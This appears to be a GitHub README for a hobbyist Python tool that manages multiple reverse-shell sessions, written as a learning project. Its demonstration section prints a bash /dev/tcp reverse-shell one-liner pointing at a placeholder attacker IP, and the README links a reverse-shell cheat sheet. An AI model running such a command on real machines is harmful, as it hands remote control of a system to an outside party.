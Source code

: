 # Automatic Goggles

Automatic googles is a program that allows you to manage multiple remote sessions on other machines. It allows you to switch between sessions and run commands on target machines.

### Written in Python 3.6.8

## Things I learned

- I learned how to implement classes in python and that they can make things a lot easier.
- I learned more about socket programming in Python.
- [I learned about the different methods of sending reverse shells.](http://pentestmonkey.net/cheat-sheet/shells/reverse-shell-cheat-sheet)
- I learned more about programming in python and developed useful skill in regards to building larger programs. 

## Future Additions
- Upload/Download files.
- Some automation with Post-Exploitation.

## Current issues
- When you are in a shell running commands, you have to hit enter twice for the command to actually run and recive output. 
- Many other error handling things I need to go in and do. 

## Demonstration

Starting a listener for the connection...

![listen](pics/listen.png "Listener setup")

Recieving connection from compromised host (my helpful friend Josh Hammrich)...

Reverse shell method used -> `bash -i >& /dev/tcp/<myip>/1337 0>&1`

![receive](pics/recieved_connection.png "Recieving Connection")

Dropping into a shell on the new session...

![shell](pics/connecting_to_shell.png "Connecting to session")

Executing commands...

![cmdexec](pics/code_execution.png "Executing 'whoami'")

Killing connection...

![kill](pics/kill_connection.png "Killing the spawned session")

Running local commands inside of automatic-goggles...

![local](pics/local_command_run.png "Running 'ls' locally")

***
While there is practical use for this project, I will probably just stick with metasploit :) This was for learning experiences and I will continue to work on it and add things when I get ideas and find time!
